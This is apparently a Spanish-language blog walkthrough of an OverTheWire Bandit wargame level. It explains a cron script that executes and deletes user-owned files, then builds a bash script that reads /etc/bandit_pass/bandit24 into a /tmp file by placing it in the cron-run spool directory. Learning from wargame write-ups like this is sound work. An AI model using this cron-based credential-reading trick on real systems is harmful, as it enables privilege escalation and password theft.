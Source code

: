 Luego entra al directorio `/var/spool/$myname"/foo || exit 1` y si hay un stderr sale con código de error 1.

**echo "Executing and deleting all scripts in /var/spool/$myname/foo** Imprime el mensaje para indicar que se están ejecutando y eliminando todos los scripts en el directorio "/var/spool/$myname/foo".

`for i in * .*;` Inicia un bucle for que recorre todos los archivo y carpetas `.*`

Ahora pone la condición **if [ "$i" != "." -a "$i" != ".." ];** para que no se incluyan los dos archivos que viene por defecto en el sistema que es retroceso de directorio y directorio actual que son caracteres especiales.

Luego obtiene el propietario del archivo actual utilizando el comando **stat** y lo almacena en la variable **owner**: `owner="$(stat --format "%U" ./$i)"`

Después de lo anterior comprueba si el propietario del archivo actual es bandit24 **if [ "${owner}" = "bandit23" ]; then** 

Si es el propietario entonces ejecuta el archivo **./$i** con un tiempo máximo de ejecución de 60 segundos. Y termina eliminando el archivo después de su ejecución `rm -rf ./$i` 


#### Creando script 

---

- Algo interesante que hace la tarea **CRON** anterior es ejecutar todos los archivos en el directorio **/var/spool/$myname/foo**, verificamos [permisos](https://mechitast.github.io/blog/Lectura-Permisos) en esa ruta:

```shell
bandit23@bandit:/var/spool/bandit24$ ls -l
total 4
drwxrwx-wx 18 root bandit24 4096 Aug 30 16:50 foo
# Permisos de otros: escribir y ejecutar pero no leer con eso basta
```

- Entonces podemos crear un script que muestre la clave de acceso del usuario bandit24 pero que la envié a un directorio temporal:

Primero creamos un directorio temporal en donde crearemos el script

```shell
bandit23@bandit:~$ mkdir /tmp/mechitast
bandit23@bandit:~$ cd /tmp/mechitast

# Cambiamos los permisos del directorio temporal en donde otros(nosotros) podamos escribir
bandit23@bandit: /tmp/mechitast$chmod o+w //tmp/mechitast
```

- Creamos el script

```shell
#!/bin/bash

#La lectura de cat quiero que lo metas en la ruta temporal y en concreto al archivo txt
cat /etc/bandit_pass/bandit24 >  /tmp/mechitast/clave.txt
```
